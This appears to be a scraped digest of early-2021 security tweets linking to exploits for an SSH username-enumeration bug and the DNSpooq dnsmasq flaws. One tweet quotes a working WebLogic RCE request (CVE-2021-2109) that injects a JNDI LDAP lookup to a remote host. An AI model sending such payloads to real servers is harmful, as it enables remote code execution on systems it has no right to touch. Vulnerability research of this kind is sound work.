 * http://testing.com
* https://github.com/Rhynorater/CVE-2018-15473-Exploit/blob/master/sshUsernameEnumExploit.py

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>391</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1353565699864633344 _at 2021-01-25, 04:49:45_**
<blockquote>
#Oracle WebLogic Server RCE (CVE-2021-2109)

[PoC]
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(-ldap://192.168.0;[Semicolon]👈10:1389/5r5mu7;AdminServer-)

https://t.co/S875IxhzFa https://t.co/h2REYhG9Yj
</blockquote>

* http://packetstormsecurity.com/files/161053/Oracle-WebLogic-Server-14.1.1.0-Remote-Code-Execution.html

<table><tr>
<td><img src="pictures/ebc4f69064ccf6c31b78e533a5904bfc37b5255384ee81534db0a28710c6d29e.jpg" alt="ebc4f69064ccf6c31b78e533a5904bfc37b5255384ee81534db0a28710c6d29e.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1353537341915238400 _at 2021-01-25, 02:57:04_**
<blockquote>
DNSpooq PoC - dnsmasq cache poisoning (CVE-2020-25686, CVE-2020-25684, CVE-2020-25685)
exploit
https://t.co/ianD1toRlI
report
https://t.co/yjLmvuZj9o https://t.co/dShkZ4P2Yx
</blockquote>

* https://github.com/knqyf263/dnspooq
* https://www.jsof-tech.com/wp-content/uploads/2021/01/DNSpooq-Technical-WP.pdf
